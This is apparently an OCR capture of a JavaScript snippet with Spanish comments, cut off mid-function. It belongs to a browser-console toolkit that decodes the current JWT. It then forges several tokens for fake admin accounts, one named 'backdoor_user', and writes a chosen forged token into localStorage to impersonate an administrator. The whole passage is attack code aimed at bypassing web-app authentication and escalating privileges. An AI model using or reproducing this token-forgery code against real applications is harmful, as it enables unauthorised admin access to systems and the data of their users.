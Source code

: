 ```javascript
        header,
        payload,
        signature,
        isExpired: payload.exp < Math.floor(Date.now() / 1000),
        timeToExpiry: payload.exp - Math.floor(Date.now() / 1000),
        algorithm: header.alg,
        tokenType: header.typ
      };
      
      console.log("🔍 ANÁLISIS DE TOKEN ACTUAL:");
      console.table(analysis);
      
      return analysis;
    } catch (error) {
      console.log("❌ Error analizando token:", error.message);
      return null;
    }
  },
  
  // Crear múltiples tokens falsos
  createMultipleFakeTokens: () => {
    const fakeUsers = [
      { id: 1001, username: 'fake_admin_1', role: 'admin' },
      { id: 1002, username: 'fake_admin_2', role: 'admin' },
      { id: 1003, username: 'backdoor_user', role: 'admin' }
    ];
    
    const forgedTokens = fakeUsers.map(user => {
      const userData = {
        ...user,
        email: `${user.username}@forged.com`,
        created_at: new Date().toISOString(),
        profile: {
          fullName: `Forged User ${user.id}`,
          department: 'Hacking Department'
        }
      };
      
      return {
        user: userData,
        token: api.createFakeToken(userData)
      };
    });
    
    console.log("🎭 TOKENS FORJADOS CREADOS:");
    console.table(forgedTokens);
    
    // Guardar para uso posterior
    (window as any).forgedTokens = forgedTokens;
    
    return forgedTokens;
  },
  
  // Rotar entre tokens forjados
  switchToFakeToken: (index = 0) => {
    const forgedTokens = (window as any).forgedTokens;
    if (!forgedTokens || !forgedTokens[index]) {
      console.log("❌ Token forjado no disponible. Ejecuta createMultipleFakeTokens() primero.");
      return;
    }
    
    const selectedToken = forgedTokens[index];
    localStorage.setItem('token', selectedToken.token);
```